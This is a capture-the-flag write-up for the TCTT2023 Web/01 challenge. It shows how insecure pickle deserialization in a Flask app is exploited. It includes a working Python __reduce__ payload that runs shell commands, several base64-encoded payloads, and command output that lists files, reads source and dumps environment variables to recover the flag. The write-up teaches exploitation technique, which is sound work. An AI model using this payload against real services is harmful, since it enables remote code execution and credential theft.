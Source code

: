 # Write-ups for TCTT2023/Web/01

## Flag pattern

`CTT23{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}`

## Challenge Files

_No file provided_

## Solution

1. First, let observe the website.

   - Input: `aaaa`

   ![web_result_01](./write-ups/01.png)

   - Input: `aaa`

   ![web_result_02](./write-ups/02.png)

   - Input: `bcsdhbcsdhvfsknv`

   ![web_result_03](./write-ups/03.png)

   - Input: `YQ==`

   ![web_result_04](./write-ups/04.png)

From these error, we know that the input must be `decoded from base64` and `unserialized with pickle`.

2. To craft payload, I wrote a [python script](./write-ups/payload.py)

```python
import pickle
import base64


class RCE:
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['/bin/bash', '-c', 'ls -la'],))


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled).decode('ASCII'))
```

And the result it

```
gASVQQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCS9iaW4vYmFzaJSMAi1jlIwGbHMgLWxhlGWFlFKULg==
```

After submit to website, we got

```
total 32
drwxr-xr-x 1 root root 4096 Sep 16 15:05 .
drwxr-xr-x 1 root root 4096 Sep 16 07:59 ..
-rw-r--r-- 1 root root  528 Aug  8 05:17 app.py
-rw-r--r-- 1 root root   13 Aug  8 04:57 requirements.txt
drwxr-xr-x 1 root root 4096 Aug  8 04:50 templates
```

3. Read the `app.py` by changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/cat', './app.py']`

```
gASVPQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCC9iaW4vY2F0lIwILi9hcHAucHmUZYWUUpQu
```

```
#! /usr/bin/python
from flask import Flask, render_template, request
import base64
import pickle

app = Flask(__name__)
@app.route("/")
def my_form():
    return render_template("home.html")

@app.route("/", methods=["POST"])
def my_form_post():
    try:
        data = base64.urlsafe_b64decode(request.form["text"])
        output = pickle.loads(data)
    except Exception as e:
        output = e
        return render_template("home.html", code=output)

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=1080)
```

There is nothing interesting in this file. So let go out of this directory.

4. changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/bash', '-c', 'ls -la ../']`

```
gASVRQAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCS9iaW4vYmFzaJSMAi1jlIwKbHMgLWxhIC4uL5RlhZRSlC4=
```

```
total 84
drwxr-xr-x   1 root root 4096 Sep 16 07:59 .
drwxr-xr-x   1 root root 4096 Sep 16 07:59 ..
-rwxr-xr-x   1 root root    0 Sep 16 07:59 .dockerenv
drwxr-xr-x   1 root root 4096 Sep 16 15:05 app
lrwxrwxrwx   1 root root    7 Aug 16 02:02 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  360 Sep 16 07:59 dev
drwxr-xr-x   1 root root 4096 Sep 16 12:35 etc
drwxr-xr-x   1 root root 4096 Sep 16 08:26 home
lrwxrwxrwx   1 root root    7 Aug 16 02:02 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Aug 16 02:02 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Aug 16 02:02 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Aug 16 02:02 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Aug 16 02:03 media
drwxr-xr-x   2 root root 4096 Aug 16 02:03 mnt
drwxr-xr-x   2 root root 4096 Aug 16 02:03 opt
dr-xr-xr-x 580 root root    0 Sep 16 07:59 proc
drwx------   1 root root 4096 Sep 16 12:35 root
drwxr-xr-x   1 root root 4096 Sep 16 08:44 run
lrwxrwxrwx   1 root root    8 Aug 16 02:02 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Aug 16 02:03 srv
-rwxr-xr-x   1 root root  248 Aug 19 17:33 start.sh
dr-xr-xr-x  13 root root    0 Sep 16 07:59 sys
drwxrwxrwt   1 root root 4096 Sep 16 13:30 tmp
drwxr-xr-x   1 root root 4096 Aug 16 02:03 usr
drwxr-xr-x   1 root root 4096 Aug 16 02:06 var
```

`start.sh` look very interesting. Let read it.

5. changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/cat', '../start.sh']`

```
gASVQAAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCC9iaW4vY2F0lIwLLi4vc3RhcnQuc2iUZYWUUpQu
```

```
#!/bin/bash
#sed -i "s/\\[\\[RANDOM_SECRET\\]\\]/$RANDOM_SECRET/g" /tmp/flag.txt
#randomname=`date +%s | sha256sum | base64 | head -c 10 ; echo`&& mv /tmp/flag.txt /tmp/flag_$randomname.txt
export flag=$RANDOM_SECRET
python3 app.py
tail -F /dev/null
```

From `export flag=$RANDOM_SECRET`, we know that the flag is in `flag` environment variable.

6. changing `['/bin/bash', '-c', 'ls -la']` to `['/bin/bash', '-c', 'env']`

```
gASVPgAAAAAAAACMCnN1YnByb2Nlc3OUjAxjaGVja19vdXRwdXSUk5RdlCiMCS9iaW4vYmFzaJSMAi1jlIwDZW52lGWFlFKULg==
```

![web_result_05](./write-ups/05.png)

```
HOSTNAME=e404496bc97a
PWD=/app
_=/usr/bin/env
flag=CTT23{Bas364_Rc3}
HOME=/root
WERKZEUG_SERVER_FD=3
TERM=xterm
SHLVL=1
RANDOM_SECRET=CTT23{Bas364_Rc3}
LC_CTYPE=C.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

7. BOOM!, the flag is `CTT23{Bas364_Rc3}`
